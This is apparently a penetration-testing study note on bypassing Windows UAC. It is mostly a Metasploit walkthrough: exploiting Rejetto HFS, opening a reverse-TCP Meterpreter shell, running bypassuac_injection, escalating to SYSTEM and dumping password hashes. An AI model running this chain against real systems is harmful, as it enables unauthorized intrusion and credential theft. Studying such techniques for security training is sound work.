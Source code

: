 ```yaml
---
up: "[[Windows Post Exploitation]]"
---
```


# Bypassing UAC

- UAC is used to ensure that changes to the operating system require approval from the administrator
- Still working on many Windows versions
- Powerful privilege escalation technique

## Demonstration

```bash
> db_nmap -sV <ip>
> use exploit/windows/http/rejetto_hfs_exec
> set payload windows/x64/meterpreter/reverse_tcp
> run
m> sysinfo
m> getuid
m> getsystem
m> getprivs
m> shell
>net users
>net localgroup administrators
>^C
m> background
> use exploit/windows/local/bypassuac_injection
> set payload windows/x64/meterpreter/reverse_tcp
> set SESSION
> set LPORT <port>
# if bad-config error
> set TARGET Windows\ x64
> run
m> getuid
m> getsystem
m> hashdump
```
